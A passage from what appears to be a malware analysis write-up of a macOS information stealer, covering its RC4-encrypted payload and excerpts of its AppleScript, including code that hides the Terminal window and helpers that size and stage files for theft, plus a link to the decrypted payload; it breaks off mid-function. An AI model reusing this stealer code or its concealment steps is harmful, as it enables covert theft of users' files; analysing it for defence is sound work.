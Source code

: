 Coincidentally, a 32-byte hex string can be identified right below the payload, most likely a key for decryption.

![bin3](/assets/posts/work/atomic/bin3.png)

Instead of utilising XOR, the payload seem to be encrypted with RC4 instead. Here is the link for anyone who wants to analyze the decrypted payload: https://pastebin.com/raw/nB4xHSn3

## Payload Analysis
The malware can first be seen hiding the Terminal window to conceal malicious activity from the user. 
```
if release then
	try
		tell window 1 of application "Terminal" to set visible to false
	end try
end if
```

The malware then invokes multiple functions to aid in the extraction process:
1. Calculate file sizes, most likely to avoid triggering threshold alerts when exfiltrating data.
2. Create a parent directory first, if it doesn't exist, and sub-directories when required.
3. Extract file names and directory names from a given path.
4. Writes the specified text to a file at the given path, creating a directory if needed.
5. Reads content from a file and writes it to a new location using the `cat` command.
6. Checks whether the specified path is a directory.
7. Recursively copies files from a source folder to a destination folder, but only if the total size of the copied files does not exceed a specified limit (in this case, 10 MB). It also ignores certain specified file types according to the exception list.
```
on filesizer(paths)
	set fsz to 0
	try
		set theItem to quoted form of POSIX path of paths
		set fsz to (do shell script "/usr/bin/mdls -name kMDItemFSSize -raw " & theItem)
	end try
	return fsz
end filesizer
on mkdir(someItem)
	try
		set filePosixPath to quoted form of (POSIX path of someItem)
		do shell script "mkdir -p " & filePosixPath
	end try
end mkdir
on FileName(filePath)
	try
		set reversedPath to (reverse of every character of filePath) as string
```